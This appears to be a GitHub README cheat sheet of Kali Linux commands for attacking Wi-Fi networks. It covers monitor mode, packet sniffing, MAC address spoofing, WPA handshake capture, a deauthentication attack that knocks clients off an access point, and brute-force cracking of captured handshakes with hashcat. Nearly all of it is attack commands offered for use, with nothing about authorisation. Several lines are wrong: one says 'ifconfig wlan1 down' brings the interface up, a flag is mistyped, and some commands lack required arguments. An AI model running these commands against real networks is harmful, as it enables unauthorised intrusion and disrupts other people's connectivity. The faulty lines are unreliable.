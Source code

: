 # Kali-Linux-Commands

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up


## Capturig Handshake file
* `airodump-ng -bssid [bssid] --channel [1] --write Desktop/Captures/WPA wlan0mon`

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] [MAC of  Client] wlan1mon`

## Cracking Handshake file with Hashcat (Windows)
`hashcat64.exe -m 2500 capture.hccap wordlist.lst`
* Keyspace method
`hashcat64.exe -m 2500 -a3 capture.hccap -1 1234567890 ?1?1?1?1?1?1?1?1`
`hashcat64.exe -m 2500 -a3 capture.hccap -1 ?d?d?d?d?d?d?d?d`





